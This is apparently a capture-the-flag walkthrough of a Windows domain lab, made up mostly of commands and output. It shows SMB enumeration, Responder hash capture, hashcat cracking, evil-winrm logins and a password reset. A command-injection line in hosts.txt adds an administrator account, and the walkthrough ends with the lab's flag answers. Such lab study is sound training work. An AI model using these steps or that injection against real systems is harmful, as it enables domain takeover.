        dr--r--r--                0 Thu Apr 30 17:11:10 2020    Windows NT
        .\SYSVOL\windcorp.thm\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Scripts\*
        dr--r--r--                0 Fri May  1 11:55:05 2020    .
        dr--r--r--                0 Fri May  1 11:55:05 2020    ..
        dr--r--r--                0 Fri May  1 11:55:05 2020    Shutdown
        dr--r--r--                0 Fri May  1 11:55:05 2020    Startup
        Users                                                   READ ONLY
        .\Users\*
        dw--w--w--                0 Sun May  3 00:05:58 2020    .
        dw--w--w--                0 Sun May  3 00:05:58 2020    ..
        dr--r--r--                0 Sun May 10 13:18:11 2020    Administrator
        dr--r--r--                0 Fri May  1 02:33:55 2020    All Users
        dr--r--r--                0 Fri May  1 15:09:44 2020    angrybird
        dr--r--r--                0 Fri May  1 15:09:34 2020    berg
        dr--r--r--                0 Fri May  1 15:09:22 2020    bluefrog579
        dr--r--r--                0 Sun May  3 15:30:02 2020    brittanycr
        dr--r--r--                0 Fri May  1 15:09:08 2020    brownostrich284
        dr--r--r--                0 Sat Oct 17 20:52:38 2020    buse
        dw--w--w--                0 Fri May  1 01:35:11 2020    Default
        dr--r--r--                0 Fri May  1 02:33:55 2020    Default User
        fr--r--r--              174 Fri May  1 02:31:55 2020    desktop.ini
        dr--r--r--                0 Fri May  1 15:08:54 2020    edward
        dr--r--r--                0 Sun May  3 01:30:16 2020    freddy
        dr--r--r--                0 Fri May  1 15:08:28 2020    garys
        dr--r--r--                0 Sat Oct 17 21:11:05 2020    goldencat416
        dr--r--r--                0 Fri May  1 15:08:17 2020    goldenwol
        dr--r--r--                0 Fri May  1 15:08:06 2020    happ
        dr--r--r--                0 Fri May  1 15:07:53 2020    happyme
        dr--r--r--                0 Fri May  1 15:07:42 2020    Luis
        dr--r--r--                0 Fri May  1 15:07:31 2020    orga
        dr--r--r--                0 Fri May  1 15:07:19 2020    organicf
        dr--r--r--                0 Sat Oct 17 21:06:59 2020    organicfish718
        dr--r--r--                0 Fri May  1 15:07:06 2020    pete
        dw--w--w--                0 Thu Apr 30 16:35:47 2020    Public
        dr--r--r--                0 Fri May  1 15:06:54 2020    purplecat
        dr--r--r--                0 Fri May  1 15:06:42 2020    purplepanda
        dr--r--r--                0 Fri May  1 15:06:31 2020    sadswan
        dr--r--r--                0 Sat Oct 17 21:11:23 2020    sadswan869
        dr--r--r--                0 Fri May  1 15:06:20 2020    sheela
        dr--r--r--                0 Fri May  1 15:05:39 2020    silver
        dr--r--r--                0 Fri May  1 15:05:24 2020    smallf
        dr--r--r--                0 Fri May  1 15:05:05 2020    spiff
        dr--r--r--                0 Fri May  1 15:04:49 2020    tinygoos
        dr--r--r--                0 Fri May  1 15:03:57 2020    whiteleopard
        .\Users\Default\*
        dw--w--w--                0 Fri May  1 01:35:11 2020    .
        dw--w--w--                0 Fri May  1 01:35:11 2020    ..
        dr--r--r--                0 Fri May  1 02:33:35 2020    AppData
        dr--r--r--                0 Fri May  1 01:35:11 2020    Application Data
        dr--r--r--                0 Fri May  1 01:35:11 2020    Cookies
        dw--w--w--                0 Fri May  1 02:33:35 2020    Desktop
        dw--w--w--                0 Fri May  1 01:35:11 2020    Documents
        dw--w--w--                0 Fri May  1 02:33:35 2020    Downloads
        dw--w--w--                0 Fri May  1 02:33:35 2020    Favorites
        dw--w--w--                0 Fri May  1 02:33:35 2020    Links
        dr--r--r--                0 Fri May  1 01:35:11 2020    Local Settings
        dw--w--w--                0 Fri May  1 02:33:35 2020    Music
        dr--r--r--                0 Fri May  1 01:35:11 2020    My Documents
        dr--r--r--                0 Fri May  1 01:35:11 2020    NetHood
        fr--r--r--           262144 Fri May  1 02:33:04 2020    NTUSER.DAT
        fr--r--r--            57344 Fri May  1 02:33:04 2020    NTUSER.DAT.LOG1
        fr--r--r--                0 Fri May  1 02:33:35 2020    NTUSER.DAT.LOG2
        fr--r--r--            65536 Fri May  1 01:35:11 2020    NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TM.blf
        fr--r--r--           524288 Fri May  1 01:35:11 2020    NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000001.regtrans-ms
        fr--r--r--           524288 Fri May  1 01:35:11 2020    NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000002.regtrans-ms
        dw--w--w--                0 Fri May  1 02:33:35 2020    Pictures
        dr--r--r--                0 Fri May  1 01:35:11 2020    PrintHood
        dr--r--r--                0 Fri May  1 01:35:11 2020    Recent
        dr--r--r--                0 Fri May  1 02:33:35 2020    Saved Games
        dr--r--r--                0 Fri May  1 01:35:11 2020    SendTo
        dr--r--r--                0 Fri May  1 01:35:11 2020    Start Menu
        dr--r--r--                0 Fri May  1 01:35:11 2020    Templates
        dw--w--w--                0 Fri May  1 02:33:35 2020    Videos
        .\Users\Default\AppData\*
        dr--r--r--                0 Fri May  1 02:33:35 2020    .
        dr--r--r--                0 Fri May  1 02:33:35 2020    ..
        dr--r--r--                0 Fri May  1 01:35:11 2020    Local
        dr--r--r--                0 Fri May  1 02:33:35 2020    Roaming
        .\Users\Default\AppData\Local\*
        dr--r--r--                0 Fri May  1 01:35:11 2020    .
        dr--r--r--                0 Fri May  1 01:35:11 2020    ..
        dr--r--r--                0 Fri May  1 01:35:11 2020    Application Data
        dr--r--r--                0 Fri May  1 01:35:11 2020    History
        dr--r--r--                0 Fri May  1 02:33:35 2020    Microsoft
        dr--r--r--                0 Fri May  1 02:33:35 2020    Temp
        dr--r--r--                0 Fri May  1 01:35:11 2020    Temporary Internet Files
        .\Users\Default\AppData\Local\Microsoft\*
        dr--r--r--                0 Fri May  1 02:33:35 2020    .
        dr--r--r--                0 Fri May  1 02:33:35 2020    ..
        dr--r--r--                0 Fri May  1 02:33:35 2020    InputPersonalization
        dr--r--r--                0 Fri May  1 01:35:11 2020    Windows
        dr--r--r--                0 Fri May  1 02:33:35 2020    Windows Sidebar
        dr--r--r--                0 Fri May  1 02:33:35 2020    WindowsApps
        .\Users\Default\AppData\Local\Microsoft\InputPersonalization\*
        dr--r--r--                0 Fri May  1 02:33:35 2020    .
        dr--r--r--                0 Fri May  1 02:33:35 2020    ..
        dr--r--r--                0 Fri May  1 02:33:35 2020    TrainedDataStore
        .\Users\Default\AppData\Local\Microsoft\Windows\*
        dr--r--r--                0 Fri May  1 01:35:11 2020    .
        dr--r--r--                0 Fri May  1 01:35:11 2020    ..
        dr--r--r--                0 Fri May  1 02:33:35 2020    CloudStore
        dr--r--r--                0 Fri May  1 02:33:35 2020    GameExplorer
        dr--r--r--                0 Fri May  1 02:33:35 2020    History
        dr--r--r--                0 Fri May  1 02:33:35 2020    INetCache
        dr--r--r--                0 Fri May  1 02:33:35 2020    INetCookies
        dr--r--r--                0 Fri May  1 02:33:35 2020    Shell
        dr--r--r--                0 Fri May  1 01:35:11 2020    Temporary Internet Files
        dr--r--r--                0 Fri May  1 02:33:35 2020    WinX
        .\Users\Default\AppData\Local\Microsoft\Windows Sidebar\*
        dr--r--r--                0 Fri May  1 02:33:35 2020    .
        dr--r--r--                0 Fri May  1 02:33:35 2020    ..
        dr--r--r--                0 Fri May  1 02:33:35 2020    Gadgets
        fr--r--r--               80 Fri May  1 02:33:04 2020    settings.ini
        .\Users\Default\AppData\Roaming\*
        dr--r--r--                0 Fri May  1 02:33:35 2020    .
        dr--r--r--                0 Fri May  1 02:33:35 2020    ..
        dr--r--r--                0 Fri May  1 02:33:35 2020    Microsoft
        .\Users\Default\AppData\Roaming\Microsoft\*
        dr--r--r--                0 Fri May  1 02:33:35 2020    .
        dr--r--r--                0 Fri May  1 02:33:35 2020    ..
        dr--r--r--                0 Fri May  1 02:33:35 2020    Internet Explorer
        dr--r--r--                0 Fri May  1 02:33:35 2020    Windows
        .\Users\Default\AppData\Roaming\Microsoft\Internet Explorer\*
        dr--r--r--                0 Fri May  1 02:33:35 2020    .
        dr--r--r--                0 Fri May  1 02:33:35 2020    ..
        dw--w--w--                0 Fri May  1 02:33:35 2020    Quick Launch
        .\Users\Default\AppData\Roaming\Microsoft\Windows\*
        dr--r--r--                0 Fri May  1 02:33:35 2020    .
        dr--r--r--                0 Fri May  1 02:33:35 2020    ..
        dr--r--r--                0 Fri May  1 02:33:35 2020    CloudStore
        dr--r--r--                0 Fri May  1 02:33:35 2020    Network Shortcuts
        dr--r--r--                0 Fri May  1 02:33:35 2020    Printer Shortcuts
        dw--w--w--                0 Fri May  1 02:33:35 2020    Recent
        dw--w--w--                0 Fri May  1 02:33:35 2020    SendTo
        dw--w--w--                0 Fri May  1 02:33:35 2020    Start Menu
        dr--r--r--                0 Fri May  1 02:33:35 2020    Templates
        .\Users\Default\Documents\*
        dw--w--w--                0 Fri May  1 01:35:11 2020    .
        dw--w--w--                0 Fri May  1 01:35:11 2020    ..
        dr--r--r--                0 Fri May  1 01:35:11 2020    My Music
        dr--r--r--                0 Fri May  1 01:35:11 2020    My Pictures
        dr--r--r--                0 Fri May  1 01:35:11 2020    My Videos
```

```
kali@kali:~/CTFs/tryhackme/Ra$ smbclient //windcorp.thm/Shared -U lilyle --password ChangeMe#1234
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 30 02:45:42 2020
  ..                                  D        0  Sat May 30 02:45:42 2020
  Flag 1.txt                          A       45  Fri May  1 17:32:36 2020
  spark_2_8_3.deb                     A 29526628  Sat May 30 02:45:01 2020
  spark_2_8_3.dmg                     A 99555201  Sun May  3 13:06:58 2020
  spark_2_8_3.exe                     A 78765568  Sun May  3 13:05:56 2020
  spark_2_8_3.tar.gz                  A 123216290  Sun May  3 13:07:24 2020

                15587583 blocks of size 4096. 10911022 blocks available
smb: \> get "Flag 1.txt"
getting file \Flag 1.txt of size 45 as Flag 1.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> get spark_2_8_3.d
spark_2_8_3.deb  spark_2_8_3.dmg
smb: \> get "spark_2_8_3.deb"
getting file \spark_2_8_3.deb of size 29526628 as spark_2_8_3.deb (2081.9 KiloBytes/sec) (average 2054.0 KiloBytes/sec)
smb: \> exit
```

```
kali@kali:~/CTFs/tryhackme/Ra$ cat Flag\ 1.txt
THM{466d52dc75a277d6c3f6c6fcbc716d6b62420f48}
```

`lilyle : ChangeMe#1234 @ windcorp.thm`







```html

```

```
kali@kali:~/CTFs/tryhackme/Ra$ sudo responder -I tun0
[sudo] password for kali:
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.0.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.8.106.222]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']


[+] Listening for events...
[HTTP] NTLMv2 Client   : 10.10.134.161
[HTTP] NTLMv2 Username : WINDCORP\buse
[HTTP] NTLMv2 Hash     : buse::WINDCORP:23d4897b46a0b4ab:0E5FE47F8629BFCE266634FA7F24E10A:0101000000000000DF33451FBBA4D601CB338FB772EDC80F000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C000800300030000000000000000100000000200000B7EAB7302982BCAA806FF469FD9B218465D4A96DC39A0AE015D388A8578ED7A00A00100000000000000000000000000000000000090000000000000000000000
[*] Skipping previously captured hash for WINDCORP\buse
```

```
kali@kali:~/CTFs/tryhackme/Ra$ hashcat -m 5600 buse.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=5600 -D _unroll'
* Device #1: Kernel m05600_a0-pure.7942cd3d.kernel not found in cache! Building may take a while...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

BUSE::WINDCORP:23d4897b46a0b4ab:0e5fe47f8629bfce266634fa7f24e10a:0101000000000000df33451fbba4d601cb338fb772edc80f000000000200060053004d0042000100160053004d0042002d0054004f004f004c004b00490054000400120073006d0062002e006c006f00630061006c000300280073006500720076006500720032003000300033002e0073006d0062002e006c006f00630061006c000500120073006d0062002e006c006f00630061006c000800300030000000000000000100000000200000b7eab7302982bcaa806ff469fd9b218465d4a96dc39a0ae015d388a8578ed7a00a00100000000000000000000000000000000000090000000000000000000000:uzunLM+3131

Session..........: hashcat
Status...........: Cracked
Hash.Type........: NetNTLMv2
Hash.Target......: BUSE::WINDCORP:23d4897b46a0b4ab:0e5fe47f8629bfce266...000000
Time.Started.....: Sat Oct 17 21:26:59 2020 (5 secs)
Time.Estimated...: Sat Oct 17 21:27:04 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   549.7 kH/s (2.26ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 2959360/14344385 (20.63%)
Rejected.........: 0/2959360 (0.00%)
Restore.Point....: 2957312/14344385 (20.62%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: v10014318 -> uyab_cakep

Started: Sat Oct 17 21:26:18 2020
Stopped: Sat Oct 17 21:27:06 2020
```

`buse:uzunLM+3131`

```
kali@kali:~/CTFs/tryhackme/Ra$ evil-winrm -u buse -p uzunLM+3131 -i windcorp.thm

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\buse\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\buse\Desktop> dir


    Directory: C:\Users\buse\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/7/2020   3:00 AM                Also stuff
d-----         5/7/2020   2:58 AM                Stuff
-a----         5/2/2020  11:53 AM             45 Flag 2.txt
-a----         5/1/2020   8:33 AM             37 Notes.txt


*Evil-WinRM* PS C:\Users\buse\Desktop> type "Flag 2.txt"
THM{6f690fc72b9ae8dc25a24a104ed804ad06c7c9b1}
```

```
*Evil-WinRM* PS C:\Users\buse\Desktop> cd C:\
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/2/2020   6:33 AM                inetpub
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---         5/8/2020   7:43 AM                Program Files
d-----         5/7/2020   2:51 AM                Program Files (x86)
d-----         5/3/2020   5:48 AM                scripts
d-----        5/29/2020   5:45 PM                Shared
d-r---         5/2/2020   3:05 PM                Users
d-----        5/30/2020   7:00 AM                Windows


*Evil-WinRM* PS C:\> cd scripts
*Evil-WinRM* PS C:\scripts> dir


    Directory: C:\scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/3/2020   5:53 AM           4119 checkservers.ps1
-a----       10/17/2020  12:31 PM             31 log.txt


*Evil-WinRM* PS C:\> cd scripts
*Evil-WinRM* PS C:\scripts> dir


    Directory: C:\scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/3/2020   5:53 AM           4119 checkservers.ps1
-a----       10/17/2020  12:31 PM             31 log.txt


*Evil-WinRM* PS C:\scripts> type "log.txt"
Last run: 10/17/2020 12:33:44
*Evil-WinRM* PS C:\scripts> type checkservers.ps1
```

```ps1
# reset the lists of hosts prior to looping
$OutageHosts = $Null
# specify the time you want email notifications resent for hosts that are down
$EmailTimeOut = 30
# specify the time you want to cycle through your host lists.
$SleepTimeOut = 45
# specify the maximum hosts that can be down before the script is aborted
$MaxOutageCount = 10
# specify who gets notified
$notificationto = "brittanycr@windcorp.thm"
# specify where the notifications come from
$notificationfrom = "admin@windcorp.thm"
# specify the SMTP server
$smtpserver = "relay.windcorp.thm"

# start looping here
Do{
$available = $Null
$notavailable = $Null
Write-Host (Get-Date)

# Read the File with the Hosts every cycle, this way to can add/remove hosts
# from the list without touching the script/scheduled task,
# also hash/comment (#) out any hosts that are going for maintenance or are down.
get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |
ForEach-Object {
    $p = "Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue"
    Invoke-Expression $p
if($p)
    {
     # if the Host is available then just write it to the screen
     write-host "Available host ---> "$_ -BackgroundColor Green -ForegroundColor White
     [Array]$available += $_
    }
else
    {
     # If the host is unavailable, give a warning to screen
     write-host "Unavailable host ------------> "$_ -BackgroundColor Magenta -ForegroundColor White
     $p = Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue
     if(!($p))
       {
        # If the host is still unavailable for 4 full pings, write error and send email
        write-host "Unavailable host ------------> "$_ -BackgroundColor Red -ForegroundColor White
        [Array]$notavailable += $_

        if ($OutageHosts -ne $Null)
            {
                if (!$OutageHosts.ContainsKey($_))
                {
                 # First time down add to the list and send email
                 Write-Host "$_ Is not in the OutageHosts list, first time down"
                 $OutageHosts.Add($_,(get-date))
                 $Now = Get-date
                 $Body = "$_ has not responded for 5 pings at $Now"
                 Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
                  -Subject "Host $_ is down" -SmtpServer $smtpserver
                }
                else
                {
                    # If the host is in the list do nothing for 1 hour and then remove from the list.
                    Write-Host "$_ Is in the OutageHosts list"
                    if (((Get-Date) - $OutageHosts.Item($_)).TotalMinutes -gt $EmailTimeOut)
                    {$OutageHosts.Remove($_)}
                }
            }
        else
            {
                # First time down create the list and send email
                Write-Host "Adding $_ to OutageHosts."
                $OutageHosts = @{$_=(get-date)}
                $Body = "$_ has not responded for 5 pings at $Now"
                Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
                 -Subject "Host $_ is down" -SmtpServer $smtpserver
            }
       }
    }
}
# Report to screen the details
$log = "Last run: $(Get-Date)"
write-host $log
Set-Content -Path C:\scripts\log.txt -Value $log
Write-Host "Available count:"$available.count
Write-Host "Not available count:"$notavailable.count
Write-Host "Not available hosts:"
$OutageHosts
Write-Host ""
Write-Host "Sleeping $SleepTimeOut seconds"
sleep $SleepTimeOut
if ($OutageHosts.Count -gt $MaxOutageCount)
{
    # If there are more than a certain number of host down in an hour abort the script.
    $Exit = $True
    $body = $OutageHosts | Out-String
    Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
     -Subject "More than $MaxOutageCount Hosts down, monitoring aborted" -SmtpServer $smtpServer
}
}
while ($Exit -ne $True)
```

```
*Evil-WinRM* PS C:\scripts> type C:\users\brittanycr\hosts.txt
Access is denied
At line:1 char:1
+ type C:\users\brittanycr\hosts.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\brittanycr\hosts.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
Cannot find path 'C:\users\brittanycr\hosts.txt' because it does not exist.
At line:1 char:1
+ type C:\users\brittanycr\hosts.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\users\brittanycr\hosts.txt:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand

*Evil-WinRM* PS C:\scripts> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                   Alias            S-1-5-32-548                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users                Alias            S-1-5-32-555                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
WINDCORP\IT                                 Group            S-1-5-21-555431066-3599073733-176599750-5865 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

```
*Evil-WinRM* PS C:\scripts> net user brittanycr NewPassword1234 /domain
The command completed successfully.
```

```
kali@kali:~/CTFs/tryhackme/Ra$ smbclient //windcorp.thm/Users/ -U brittanycr
Enter WORKGROUP\brittanycr's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun May  3 00:05:58 2020
  ..                                 DR        0  Sun May  3 00:05:58 2020
  Administrator                       D        0  Sun May 10 13:18:11 2020
  All Users                         DHS        0  Sat Sep 15 09:28:48 2018
  angrybird                           D        0  Fri May  1 14:59:20 2020
  berg                                D        0  Fri May  1 14:59:20 2020
  bluefrog579                         D        0  Fri May  1 14:59:20 2020
  brittanycr                          D        0  Sun May  3 01:36:46 2020
  brownostrich284                     D        0  Fri May  1 14:59:20 2020
  buse                                D        0  Sat Oct 17 20:52:38 2020
  Default                           DHR        0  Fri May  1 01:35:11 2020
  Default User                      DHS        0  Sat Sep 15 09:28:48 2018
  desktop.ini                       AHS      174  Sat Sep 15 09:16:48 2018
  edward                              D        0  Fri May  1 14:59:20 2020
  freddy                              D        0  Sun May  3 01:30:16 2020
  garys                               D        0  Fri May  1 14:59:20 2020
  goldencat416                        D        0  Sat Oct 17 21:51:06 2020
  goldenwol                           D        0  Fri May  1 14:59:20 2020
  happ                                D        0  Fri May  1 14:59:20 2020
  happyme                             D        0  Fri May  1 14:59:20 2020
  Luis                                D        0  Fri May  1 14:59:20 2020
  orga                                D        0  Fri May  1 14:59:20 2020
  organicf                            D        0  Fri May  1 14:59:20 2020
  organicfish718                      D        0  Sat Oct 17 21:47:00 2020
  pete                                D        0  Fri May  1 14:59:20 2020
  Public                             DR        0  Thu Apr 30 16:35:47 2020
  purplecat                           D        0  Fri May  1 14:59:20 2020
  purplepanda                         D        0  Fri May  1 14:59:20 2020
  sadswan                             D        0  Fri May  1 14:59:20 2020
  sadswan869                          D        0  Sat Oct 17 21:47:24 2020
  sheela                              D        0  Fri May  1 14:59:20 2020
  silver                              D        0  Fri May  1 14:59:20 2020
  smallf                              D        0  Fri May  1 14:59:20 2020
  spiff                               D        0  Fri May  1 14:59:20 2020
  tinygoos                            D        0  Fri May  1 14:59:20 2020
  whiteleopard                        D        0  Fri May  1 14:59:20 2020

                15587583 blocks of size 4096. 10908764 blocks available
smb: \> cd brittanycr
smb: \brittanycr\> ls
  .                                   D        0  Sun May  3 01:36:46 2020
  ..                                  D        0  Sun May  3 01:36:46 2020
  hosts.txt                           A       22  Sun May  3 15:44:57 2020

                15587583 blocks of size 4096. 10908731 blocks available
smb: \brittanycr\> get hosts.txt
getting file \brittanycr\hosts.txt of size 22 as hosts.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```

```
google.com
cisco.com
;net user stroke Password1234! /add;net localgroup Administrators stroke /add
```

```
smb: \brittanycr\> put hosts.txt
putting file hosts.txt as \brittanycr\hosts.txt (0.6 kb/s) (average 0.6 kb/s)
smb: \brittanycr\> ls
  .                                   D        0  Sun May  3 01:36:46 2020
  ..                                  D        0  Sun May  3 01:36:46 2020
  hosts.txt                           A       99  Sat Oct 17 21:53:00 2020

                15587583 blocks of size 4096. 10908813 blocks available
smb: \brittanycr\>
```

```
kali@kali:~/CTFs/tryhackme/Ra$ evil-winrm -i windcorp.thm -u stroke -p 'Password1234!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\stroke\Documents> cd \users\administrator\desktop
*Evil-WinRM* PS C:\users\administrator\desktop> dir


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/7/2020   1:22 AM             47 Flag3.txt


*Evil-WinRM* PS C:\users\administrator\desktop> type Flag3.txt
THM{ba3a2bff2e535b514ad760c283890faae54ac2ef}
```

1. Flag 1

`THM{466d52dc75a277d6c3f6c6fcbc716d6b62420f48}`

2. Flag 2

`THM{6f690fc72b9ae8dc25a24a104ed804ad06c7c9b1}`

3. Flag 3

`THM{ba3a2bff2e535b514ad760c283890faae54ac2ef}`
